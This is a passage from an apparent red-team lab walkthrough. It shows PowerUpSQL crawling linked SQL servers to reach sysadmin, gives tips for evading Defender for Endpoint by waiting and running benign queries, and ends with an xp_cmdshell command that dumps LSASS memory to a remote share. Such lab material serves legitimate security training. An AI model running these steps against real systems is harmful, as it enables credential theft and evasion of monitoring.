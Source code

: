 ```
User        : sa
Links       :
```

NOTE: LSASS PID will be different for each LAB instance.

To break a detection chain, we will run benign queries. In case of MDE, in our experience waiting for about 10 minutes also helps in avoiding detection.

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'SELECT @@version' -QueryTarget eu-sql45
```

```
Version     : SQL Server 2019
Instance    : DCORP-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL}
User        : dcorp\student867
Links       : {DCORP-SQL1}

Version     : SQL Server 2019
Instance    : DCORP-SQL1
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1}
User        : dblinkuser
Links       : {DCORP-MGMT}

Version     : SQL Server 2019
Instance    : DCORP-MGMT
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT}
User        : sqluser
Links       : {EU-SQL45.EU.EUROCORP.LOCAL}

Version     : SQL Server 2019
Instance    : EU-SQL45
CustomQuery : System.Data.DataRow
Sysadmin    : 1
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU-SQL45.EU.EUROCORP.LOCAL}
User        : sa
Links       :
```

We can now perform an LSASS dump using the minidumpdotnet tool.

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''\\dcorp-studentx.dollarcorp.moneycorp.local\studentshare867\minidumpdotnet.exe 712 \\dcorp-student867.dollarcorp.moneycorp.local\studentshare867\monkey867.dmp ''' -QueryTarget eu-sql45
```

